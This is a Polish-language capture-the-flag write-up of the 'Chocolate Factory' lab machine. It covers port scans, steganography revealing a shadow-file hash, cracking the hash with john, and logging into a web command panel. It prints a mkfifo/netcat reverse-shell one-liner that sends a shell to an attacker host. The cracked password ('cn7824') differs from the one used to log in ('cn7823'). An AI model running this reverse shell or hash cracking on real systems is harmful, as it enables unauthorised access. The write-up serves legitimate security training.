







# Chocolate Factory
IP=10.10.108.33

## Rekonesans
Wykonujemy skan maszyny przy pomocy narzędzia nmap:
```sh
sudo nmap -p- 10.10.108.33
```
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-26 04:19 EDT
Nmap scan report for 10.10.108.33
Host is up (0.047s latency).
Not shown: 65506 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
100/tcp open  newacct
101/tcp open  hostname
102/tcp open  iso-tsap
103/tcp open  gppitnp
104/tcp open  acr-nema
105/tcp open  csnet-ns
106/tcp open  pop3pw
107/tcp open  rtelnet
108/tcp open  snagas
109/tcp open  pop2
110/tcp open  pop3
111/tcp open  rpcbind
112/tcp open  mcidas
113/tcp open  ident
114/tcp open  audionews
115/tcp open  sftp
116/tcp open  ansanotify
117/tcp open  uucp-path
118/tcp open  sqlserv
119/tcp open  nntp
120/tcp open  cfdptkt
121/tcp open  erpc
122/tcp open  smakynet
123/tcp open  ntp
124/tcp open  ansatrader
125/tcp open  locus-map

Nmap done: 1 IP address (1 host up) scanned in 96.76 seconds
```
Znając otwarte porty możemy przejść do bardziej dokładnego skanu:
```sh
sudo nmap -p 21,22,80,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122,123,124,125 -sV -sC 10.10.108.33
```
Porty: 80 (HTTP), 21 (FTP) i 22 (SSH) są najbardziej interesujące ze względów bezpieczeństwa, reszta otwrtych portów to nieco mniej ciekawe usługi.

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_auth-owners: ERROR: Script execution failed (use -d to debug)
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_auth-owners: ERROR: Script execution failed (use -d to debug)
```
Dodatkowo na porcie 113 znajdował się ciekawy link:
```
113/tcp open  ident?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GetRequest, Help, LPDString, NotesRPC, RTSPRequest, SMBProgNeg, TLSSessionReq, TerminalServer, WMSRequest, X11Probe, afp: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
```
## Skanowanie

### Port 113
Zacznijmy od sprawdzenia portu 113, za pomocą narzędzia wget:
```
wget http://10.10.108.33/key_rev_key
```

Pobrany plik key_rev_key jest plikiem binarnym, zatem warto spróbować wydobyć z niego informację komedną strings:
```
strings key_rev_key | less
```
Wynik:
```
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```
### Port 21
Nmap wykazał, że logowanie Anonymous do serwisu FTP jest możliwe oraz znajduje się tam plik w foramcie jpg:
```
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
```
Zalogujmy się do serwisu i pobierzmy plik:


Sprawdźmy czy plik nie zawiera jakichś ukrytych danych:
```
└─$ steghide extract -sf gum_room.jpg
Enter passphrase: 
wrote extracted data to "b64.txt".
```
Udało się wydobyć ukryte dane, które zostały zapisane do pliku b64.txt:



Wygląda to na kodowanie base64, wykorzystajmy narzędzie CyberChef:



Odkodowany tekst jest plikiem /shadow używanym w systemie Linux. Hasło użytkownika charlie jest zapisane w formacie hash, a dokładniej w SHA-512, co widać po pierwszych trzech znakach. ($6$ = SHA-512 | $5$=SHA=256 itd.)

```
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```
Stwórzmy plik tesktowy hash.txt z poniższym hashem:
```
$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/
```
A następnie spróbujmy go złamać przy użyciu narzędzia john:
```
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Po chwili udaje się złamać hasha:



Znalezione hasło użytkownika Charlie:

```
cn7824
```

### Port 80

Na porcie 80 znajduje się strona internetowa z panelem logowania:



Spróbujmy się zalogować przy użyciu znalezionych danych:

```
charlie:cn7823
```

Po zalogowaniu uzyskujemy dostęp do panelu, dzięki któremu możemy wykonywać dowolne polecenia na serwerze:



## Eksploitacja

Możemy spróbować reverse shell'a, aby uzyskać połączenie z maszyną, za pomocą komendy:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [IP] [Port] >/tmp/f
```
oraz
```
nc -lvnp 4444
```



Po stabilizacji shella możemy przejść do eksploitacji maszyny. W katalogu domowym użytkownika charlie można znaleźć jego prywatny klucz RSA:




